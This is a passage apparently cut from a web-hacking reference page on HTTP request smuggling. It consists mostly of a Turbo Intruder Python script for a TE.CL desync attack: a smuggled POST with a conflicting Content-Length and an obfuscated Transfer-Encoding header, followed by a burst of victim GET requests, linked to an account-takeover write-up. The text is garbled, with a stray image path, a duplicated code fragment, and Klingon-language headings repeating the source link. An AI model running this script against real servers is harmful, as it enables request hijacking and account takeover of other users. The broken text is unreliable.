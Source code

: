 ```python
time.sleep(0.05)

def handleResponse(req, interesting):
table.add(req)
```
### TE.CL

From: [https://hipotermia.pw/bb/http-desync-account-takeover](https://hipotermia.pw/bb/http-desync-account-takeover)

### tlhIngan Hol

QIn: [https://hipotermia.pw/bb/http-desync-account-takeover](https://hipotermia.pw/bb/http-desync-account-takeover)
```python
def queueRequests(target, wordlists):
engine = RequestEngine(endpoint=target.endpoint,
concurrentConnections=5,
requestsPerConnection=1,
resumeSSL=False,
timeout=10,
pipeline=False,
maxRetriesPerRequest=0,
engine=Engine.THREADED,
)
engine.start()

attack = '''POST / HTTP/1.1
Host: xxx.com
Content-Length: 4
Transfer-Encoding : chunked

46
POST /nothing HTTP/1.1
Host: xxx.com
Content-Length: 15

kk
0

'''
engine.queue(attack)

victim = '''GET / HTTP/1.1
Host: xxx.com

'''
for i in range(14):
engine.queue(victim)
time.sleep(0.05)


def handleResponse(req, interesting):
table.add(req)
```
## QaD
